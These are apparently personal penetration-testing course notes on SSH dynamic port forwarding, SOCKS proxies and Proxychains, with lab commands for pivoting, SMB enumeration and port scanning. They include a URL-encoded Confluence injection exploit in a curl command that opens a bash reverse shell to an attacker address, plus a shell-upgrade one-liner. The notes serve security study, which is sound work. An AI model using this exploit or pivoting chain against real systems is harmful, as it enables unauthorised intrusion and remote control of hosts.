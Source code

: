 - *rustc*
	- run rust scripts
	- rustc [file]
### SSH Dynamic Port Forwarding
	- single listening port on the SSH client, packets can be forwarded to any socket that the SSH server host has access to
- SSH Client creates a SOCKS proxy server port
	- SOCKS is a proxying protocol
		- a SOCKS server accepts packets (with a SOCKS protocol header) and forwards them on to wherever they're addressed
	- **[must have SOCK-compatible client software]**
	- **[must be in correct SOCKS protocol format]**

 ![[Pasted image 20240120212928.png]]

- Example:
	- confluence exploit:
		- ```curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.210/4444%200%3E%261%27%29.start%28%29%22%29%7D/```
	- TTY shell
		- ```python3 -c 'import pty; pty.spawn("/bin/bash")'```
	- Dynamic Port Forwarding
		- ```ssh -N -D 0.0.0.0:9999 database_admin@10.4.225.215```
			- -D = Dynamic
	- SMBClient doesn't have SOCKS proxy option

	- *Proxychains*
		- forces network traffic from third party tools over HTTP or SOCKS proxies.
			- can be used in a chain
			- ```It uses the Linux shared object preloading technique (LD_PRELOAD) to hook _libc_ networking functions within the binary that gets passed to it, and forces all connections over the configured proxy server. This means it might not work for everything, but will work for most _dynamically-linked binaries_ that perform simple network operations. It won't work on _statically-linked binaries_.```
		- Uses config file
			- stored by default:
				- **/etc/proxychains4.conf**
			- by default, proxies defined at EOF
		- Edit config file to locate SOCKS proxy port & confirm it is SOCKS
		- proxy type, IP address, and port
			- (i.e.) **socks5 192.168.50.63 9999**
				- ```Although we specify _socks5_ in this example, it could also be _socks4_, since SSH supports both. SOCKS5 supports authentication, IPv6, and _User Datagram Protocol_ (UDP), including DNS. Some SOCKS proxies will only support the SOCKS4 protocol. Make sure you check which version is supported by the SOCKS server when using SOCKS proxies in engagements.```
		- Proxychains will read the config file, hook into the smbclient process, and force all traffic through the SOCKS proxy
			- ```proxychains smbclient -L //172.16.225.217/ -U hr_admin --password=Welcome1234```
					- As if we're on the SSH server
				- proxychains = read proxy config file
		- Port scan and push all packets through the SSH dynamic port forward SOCKS proxy
				- ```proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.225.217```
					- Pn = skip host discov
					- n = no DNS resoultion
		- Can lower timeout to speed up scans
			- Lowering the **tcp_read_time_out** and **tcp_connect_time_out** values in the Proxychains configuration file
				- (500-1000)
